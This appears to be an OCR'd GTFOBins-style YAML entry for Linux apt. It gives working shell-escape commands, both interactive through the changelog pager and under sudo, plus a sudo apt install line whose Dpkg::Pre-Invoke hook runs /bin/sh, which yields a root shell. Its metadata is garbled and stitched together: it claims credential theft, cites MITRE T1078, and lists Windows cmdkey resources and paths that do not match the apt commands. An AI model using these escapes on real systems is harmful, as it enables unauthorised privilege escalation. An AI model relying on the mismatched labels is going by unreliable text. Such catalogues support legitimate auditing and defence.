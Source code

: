 ```yaml
---
name: apt
description: This invokes the default pager, which is likely to be less, other functions may apply.
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        apt-get changelog apt
        !/bin/sh
      mitreid: T1078
      mitrelink: https://attack.mitre.org/wiki/Technique/T1078
      operatingsystem: Linux
      privileges: User
      usecase: Get credential information from host
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo apt-get changelog apt
        !/bin/sh
      mitreid: T1078
      mitrelink: https://attack.mitre.org/wiki/Technique/T1078
      operatingsystem: Linux
      privileges: User
      usecase: Get credential information from host
    - description: For this to work the target package (e.g., `sl`) must not be installed.
      code: sudo apt install -c <(echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}') sl
      mitreid: T1078
      mitrelink: https://attack.mitre.org/wiki/Technique/T1078
      operatingsystem: Linux
      privileges: User
      usecase: Get credential information from host
resources:
    - resource: https://www.peew.pw/blog/2017/11/26/exploring-cmdkey-an-edge-case-for-privilege-escalation
    - resource: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey
fullpath:
    - path: /bin/apt
    - path: C:\Windows\SysWOW64\cmdkey.exe
detection:
  - IOC: Usage of this command could be an IOC
acknowledgement:
  - Person: 
    Handle: ''
---
```

